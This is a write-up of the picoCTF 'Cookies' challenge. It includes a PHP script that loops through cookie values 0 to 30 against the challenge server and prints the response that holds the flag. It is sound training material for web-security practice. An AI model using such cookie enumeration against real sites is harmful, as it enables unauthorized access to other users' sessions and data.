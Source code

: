 # Challenge: [Cookies](https://play.picoctf.org/practice/challenge/173)
40 Points
# Description 
Who doesn't love cookies? Try to figure out the best one.
# Solution
I use tool Burp Suite to view the response and cookie from my request. I know that the server has many cookies and I can modify them through param name.

<img src='./media/8340.png' alt='Cookie picture from Burp Suite' />

I try modifying value of name with positive values and have some different cookies. Therefore, I write a script to find the flag, this script has a loop from 0 to 30 (I also test name=30 and it does not give me a good result).
```php
<?php

$url = "http://mercury.picoctf.net:6418/check";

$curl = curl_init($url);
curl_setopt($curl, CURLOPT_URL, $url);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);

for($i=0; $i<=30; $i++){
	$headers = array("Cookie: name=$i",);
	curl_setopt($curl, CURLOPT_HTTPHEADER, $headers);

	$resp = curl_exec($curl);
	if(str_contains($resp, 'picoCTF{')){
		var_dump($resp);
	}
}


curl_close($curl);



?>


```
The flag is contained in the result when you excute it.
The flag is: picoCTF{***********}
